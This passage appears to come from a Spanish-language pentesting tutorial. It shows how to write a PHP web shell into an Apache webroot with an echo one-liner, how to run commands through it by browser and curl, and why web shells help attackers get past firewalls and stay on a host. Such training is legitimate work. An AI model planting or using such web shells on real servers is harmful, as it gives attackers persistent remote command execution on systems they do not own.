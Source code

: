 Para determinar el directorio webroot en el servidor que estás atacando, consulta estos directorios. Una vez identificado, puedes usar el comando `echo` para escribir tu Web Shell en ese directorio. Por ejemplo, si estás atacando un host Linux que ejecuta Apache, puedes escribir un Web Shell PHP con el siguiente comando:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Este comando crea un archivo llamado `shell.php` en el directorio `/var/www/html/`, que luego puedes acceder a través del navegador para ejecutar comandos.

### Acceso y Uso de un Web Shell

Una vez que hemos cargado nuestro Web Shell, podemos acceder a él a través de un navegador web o utilizando herramientas como `cURL`. Aquí te mostramos cómo interactuar con el Web Shell para ejecutar comandos.

**Acceso a través del Navegador**

Puedes visitar la URL del Web Shell en el navegador para ejecutar comandos. Por ejemplo, si has cargado `shell.php` en el servidor comprometido, puedes acceder a él de la siguiente manera:

```bash
http://SERVER_IP:PORT/shell.php?cmd=id
```

Este comando ejecutará el comando `id` y mostrará la salida en el navegador.

**Acceso mediante cURL**

Otra opción es usar `cURL` desde la línea de comandos para interactuar con el Web Shell. Ejecuta el siguiente comando para enviar una solicitud HTTP GET y ejecutar el comando `id`:

```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

La salida será similar a:

```kotlin
kotlinCopiar códigouid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Ventajas y Desventajas de un Web Shell**

**Ventajas:**

* **Evasión de Restricciones de Firewall:** Un Web Shell opera sobre el puerto web (80, 443 o cualquier otro puerto utilizado por la aplicación web), lo que evita las restricciones de firewall que podrían bloquear conexiones en puertos no estándar.
* **Persistencia:** Si el host comprometido se reinicia, el Web Shell continuará en su lugar, permitiéndote acceder a él y ejecutar comandos sin necesidad de explotar el host nuevamente.

**Desventajas:**

* **Interactividad Limitada:** A diferencia de los shells reverse y bind, un Web Shell no es tan interactivo. Tendrás que enviar solicitudes diferentes para cada comando que quieras ejecutar.
* **Automatización:** En situaciones extremas, puedes escribir un script en Python u otro lenguaje para automatizar el proceso y proporcionar una experiencia de shell web semi-interactiva dentro de tu terminal.

